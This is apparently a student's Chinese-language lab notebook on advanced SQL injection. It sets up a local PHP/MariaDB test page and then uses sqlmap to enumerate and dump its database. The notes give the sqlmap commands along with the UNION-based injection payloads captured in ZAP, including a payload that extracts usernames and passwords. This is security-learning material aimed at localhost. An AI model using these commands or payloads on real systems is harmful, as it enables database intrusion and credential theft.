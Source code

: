
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 **UNION 查询**（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 	
	CONCAT(0x71787a7071,JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,`password`,id,username)),0x71706a7171),NULL 
		FROM sql_injection.`user`-- -'
```
用该函数拖库：

![输入图片说明](/imgs/2023-05-09/EmIi4g5a3ahnV4w8.png)

同理，其他 UNION 注入也使用类似语句，如获取库名使用CAST（DATABASE）等

UNION注入速度最快，但需要在页面直接回显数据库信息时才可使用

















> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTA4ODczNzM0NSwyNjkyMDUwOTMsLTI1MT
M4NjQ5MywtNDk4NzAwNTI4LC0yNzE2NDI5NjksLTg1ODc4Mjk1
OCwxMTc3MTA3ODI5LDI4MDc4NDQ1MywxMTcwMzQ1ODk5LC0xNz
ExMzMyODU4LDc5NjI4MzEwOCw4ODk4MzI1OTQsMTgwMzUwMTQ4
NiwtNjc0NjU0OTU4LDE1ODkwNDg1ODksLTE4NTg4NjI5NTcsLT
E1NjYzNTQxNzAsMjcxOTkwNjM0LDIzOTc0NzIyNiwtMjA2ODc4
ODUxMl19
-->